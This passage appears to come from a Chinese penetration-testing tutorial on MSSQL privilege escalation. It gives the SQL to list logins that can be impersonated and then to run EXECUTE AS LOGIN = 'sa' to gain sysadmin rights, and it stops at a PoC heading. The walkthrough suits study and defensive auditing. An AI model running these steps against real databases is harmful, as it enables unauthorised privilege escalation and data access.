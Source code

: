    SELECT distinct b.name
    FROM sys.server_permissions a
    INNER JOIN sys.server_principals b
    ON a.grantor_principal_id = b.principal_id
    WHERE a.permission_name = 'IMPERSONATE'

![4.png](resource/Mssql模拟登录提权/media/rId29.png)

这里我们可以看到MyUser1用户可以模拟登录sa,MyUser2,MyUser2用户，接下来就是模拟登录sa来获取sysadmin权限了

#### 4.模拟SQL Server用户登陆

    -- 验证是否为sysadmin权限
    SELECT SYSTEM_USER
    SELECT IS_SRVROLEMEMBER('sysadmin')
    -- 模拟sa登录
    EXECUTE AS LOGIN = 'sa'
    -- 验证是否为sysadmin权限
    SELECT SYSTEM_USER
    SELECT IS_SRVROLEMEMBER('sysadmin')

![5.png](resource/Mssql模拟登录提权/media/rId31.png)

可以看到，第二个查询之后我们已经是sysadmin的权限了

我们再用查看登录用户来验证下

    SELECT * FROM master.sys.sysusers
    WHERE islogin = 1

模拟sa登录之前

![6.png](resource/Mssql模拟登录提权/media/rId32.png)

模拟sa登录之后

![7.png](resource/Mssql模拟登录提权/media/rId33.png)

权限高了，可以看到更多的用户登录

#### 5.回到原来的登录

    REVERT
    SELECT SYSTEM_USER
    SELECT IS_SRVROLEMEMBER('sysadmin')

![8.png](resource/Mssql模拟登录提权/media/rId35.png)

这样我们又回到myuser1用户登录的会话了

0x03 工具化
-----------

> 当然这个也可以用powershell一键实现

### poc

